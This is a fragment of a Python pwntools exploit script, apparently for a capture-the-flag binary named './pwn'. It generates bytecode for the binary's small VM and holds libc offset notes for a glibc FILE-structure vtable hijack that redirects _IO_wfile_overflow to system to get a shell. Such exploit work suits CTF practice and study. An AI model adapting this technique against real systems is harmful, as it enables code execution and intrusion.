 ```python
    shellcode += p64(value)
    return shellcode

def nop():
    shellcode = b''
    shellcode += p8(opcode["NOP"])
    return shellcode

OFFSET_TO_LIBC = 0x9000
def off(offset):
    return OFFSET_TO_LIBC+offset

def generate_read(offset, value):
    shellcode = b''
    # here set the mov offset
    shellcode += add_value(offset) # ID
    shellcode += set_value_reg(0, RET_REG) # ALU
    # here use add/sub to calculate the 
    shellcode += sub_value(value) # ID -> MEM
    shellcode += nop() # ALU calculate
    shellcode += nop() # MEM saving data

    return shellcode

# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
ph = process("./pwn")
# gdb.attach(ph)

# libc offset
LIBC_STDERR = 0x21b6a0
# stderr_vtable = libc + 0xd8
STDERR_VTABLE = LIBC_STDERR + 0xd8
# wide_data = libc + 0x21a8a0
WIDE_DATA = 0x21a8a0
# IO_READ_PTR = wide_data+0 bypass check1
IO_READ_PTR_OFF = 0
# IO_READ_PTR = wide_data+0 bypass check2
IO_WRITE_PTR_OFF = 0x20
# OVERFLOW call
WFILE_JUMP = 0x2170c0
_IO_WOVERFLOW_OFFSET=0x18
# modify it to system

SYSTEM = 0x50D70
_IO_WFILE_OVERFLOW = 0x086390
# _IO_2_1_stderr_+131 = 0x7f492b71a723
# system  = 0x7f492b54fd70
# system_off = _IO_2_1_stderr_+131  - system = 0x1ca9b3
# minuse to /bin/sh

SYSTEM_OFF = _IO_WFILE_OVERFLOW - SYSTEM
# modified vtable
# IO_wfile_jumps
# _IO_file_jumps - _IO_wfile_jumps + 0x30(offset to seekoff)
# modify vtbale
# modify _wide_data(0xa0)->_IO_read_ptr
# modify _wide_data(0xa0)->_IO_write_ptr
# _wide_data(0xe0)??? no need to modify
# _wide_data->WFILE_JUMP->IO(0x18) 
#  x /40gx (char*)&_IO_2_1_stderr_
# 0xffffffffffffba20
# finally comes to function _IO_switch_to_wget_mode to call
```